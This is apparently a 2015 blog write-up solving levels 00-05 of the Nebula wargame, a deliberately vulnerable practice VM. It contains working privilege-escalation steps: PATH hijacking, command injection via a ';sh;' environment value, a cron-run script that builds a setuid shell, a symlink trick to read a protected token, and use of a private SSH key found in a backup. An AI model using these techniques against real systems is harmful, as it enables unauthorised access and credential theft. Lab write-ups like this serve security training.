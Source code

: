 ```yaml
---
layout: post
title: "Exploit-Exercises: Nebula (00-05)"
date: 2015-06-16 19:04:18 +0200
comments: true
categories: [vulnhub, exploit-exercises]
---
```

Image: [Exploit-Exercises: Nebula (v5)](https://www.vulnhub.com/entry/exploit-exercises-nebula-v5,31/)

Because it was not possible to log in via ssh, we generated the host key:
{% codeblock %}
ssh-keygen -t rsa -f /etc/ssh/ssh_host_rsa_key
{% endcodeblock %}

## Level00
{% codeblock lang:console %}
level00@nebula:~$ find / \( -perm -4000 \) 2>/dev/null 
/bin/.../flag00
/bin/fusermount
/bin/mount
/bin/ping
/bin/ping6
/bin/su
[ .. SNIP .. ]
{% endcodeblock %}

We found a suspicious file on the first line, after executing, we obtained flag.
{% codeblock lang:console %}
level00@nebula:~$ id
uid=1001(level00) gid=1001(level00) groups=1001(level00)
level00@nebula:~$ /bin/.../flag00
Congrats, now run getflag to get your flag!
flag00@nebula:~$ id
uid=999(flag00) gid=1001(level00) groups=999(flag00),1001(level00)
flag00@nebula:~$ getflag 
You have successfully executed getflag on a target account
{% endcodeblock %}

## Level01
{% codeblock lang:c %}
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  gid_t gid;
  uid_t uid;
  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  system("/usr/bin/env echo and now what?");
}
{% endcodeblock %}

Solution:
{% codeblock lang:console %}
level01@nebula:~$ export PATH=.:$PATH
level01@nebula:~$ echo 'sh' > echo
level01@nebula:~$ chmod +x ./echo
level01@nebula:~$ id
uid=1002(level01) gid=1002(level01) groups=1002(level01)
level01@nebula:~$ /home/flag01/flag01
sh-4.2$ id
uid=998(flag01) gid=1002(level01) groups=998(flag01),1002(level01)
sh-4.2$ getflag
You have successfully executed getflag on a target account
{% endcodeblock %}

## Level02
{% codeblock lang:c %}
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  char *buffer;

  gid_t gid;
  uid_t uid;

  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  buffer = NULL;

  asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
  printf("about to call system(\"%s\")\n", buffer);
  
  system(buffer);
}
{% endcodeblock %}

Solution:
{% codeblock lang:console %}
level02@nebula:~$ export USER=';sh;'
level02@nebula:~$ /home/flag02/flag02 
about to call system("/bin/echo ;sh; is cool")

sh-4.2$ getflag 
You have successfully executed getflag on a target account
{% endcodeblock %}

## Level03
There is a crontab entry that is called every couple of minutes.

Because the /tmp is mounted with nosuid option, we use home directory to store suid binary:
{% codeblock lang:console %}
level03@nebula:~$ mount | grep nosuid
proc on /proc type proc (rw,noexec,nosuid,nodev)
sysfs on /sys type sysfs (rw,noexec,nosuid,nodev)
devpts on /dev/pts type devpts (rw,noexec,nosuid,gid=5,mode=0620)
tmpfs on /run type tmpfs (rw,noexec,nosuid,size=10%,mode=0755)
tmpfs on /tmp type tmpfs (rw,nosuid,nodev)
none on /run/lock type tmpfs (rw,noexec,nosuid,nodev,size=5242880)
none on /run/shm type tmpfs (rw,nosuid,nodev)
vmware-vmblock on /run/vmblock-fuse type fuse.vmware-vmblock (rw,nosuid,nodev,default_permissions,allow_other)
{% endcodeblock %}

The file invoked by cron is here:
{% codeblock lang:bash %}
level03@nebula:/home/flag03$ cat writable.sh 
#!/bin/sh

for i in /home/flag03/writable.d/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
{% endcodeblock %} 

Our code to obtain suid shell:
{% codeblock lang:bash %}
level03@nebula:~$ cd /home/flag03/writable.d/

level03@nebula:/home/flag03/writable.d$ echo '#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>

int main()
{
   setreuid(geteuid(),geteuid());
   execve("/bin/sh", NULL, NULL);

   return 0;
}
' > /tmp/run.c


level03@nebula:/home/flag03/writable.d$ echo '#!/bin/bash
gcc /tmp/run.c -o /home/flag03/x
chmod +s /home/flag03/x
' > run.sh
level03@nebula:/home/flag03/writable.d$ chmod +x run.sh
{% endcodeblock %}

After a little waiting, the suid binary is created:
{% codeblock lang:bash %}
level03@nebula:/home/flag03/writable.d$ ../x 
bash-4.2$ getflag 
You have successfully executed getflag on a target account
{% endcodeblock %}

## Level04
{% codeblock lang:c %}
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>
#include <fcntl.h>

int main(int argc, char **argv, char **envp)
{
  char buf[1024];
  int fd, rc;

  if(argc == 1) {
      printf("%s [file to read]\n", argv[0]);
      exit(EXIT_FAILURE);
  }

  if(strstr(argv[1], "token") != NULL) {
      printf("You may not access '%s'\n", argv[1]);
      exit(EXIT_FAILURE);
  }

  fd = open(argv[1], O_RDONLY);
  if(fd == -1) {
      err(EXIT_FAILURE, "Unable to open %s", argv[1]);
  }

  rc = read(fd, buf, sizeof(buf));
  
  if(rc == -1) {
      err(EXIT_FAILURE, "Unable to read fd %d", fd);
  }

  write(1, buf, rc);
}
{% endcodeblock %}

We cannot read the token file, but symlink technique is sufficient:
{% codeblock %}
level04@nebula:~$ cd /home/flag04/
level04@nebula:/home/flag04$ ./flag04 
./flag04 [file to read]
level04@nebula:/home/flag04$ ./flag04 token 
You may not access 'token'
level04@nebula:/home/flag04$ ln -s /home/flag04/token /tmp/x
level04@nebula:/home/flag04$ ./flag04 /tmp/x 
06508b5e-8909-4f38-b630-fdb148a848a2
level04@nebula:/home/flag04$ su - flag04
Password: 
flag04@nebula:~$ getflag 
You have successfully executed getflag on a target account
{% endcodeblock %}

## Level05
In /home/flag05 we can find the backup file with ssh private key.

{% codeblock lang:console %}
level05@nebula:/home/flag05$ tar xvzf .backup/backup-19072011.tgz  -C /tmp/
.ssh/
.ssh/id_rsa.pub
.ssh/id_rsa
.ssh/authorized_keys

level05@nebula:/home/flag05$ ssh -i /tmp/.ssh/id_rsa flag05@0
flag05@nebula:~$ getflag 
You have successfully executed getflag on a target account
{% endcodeblock %}

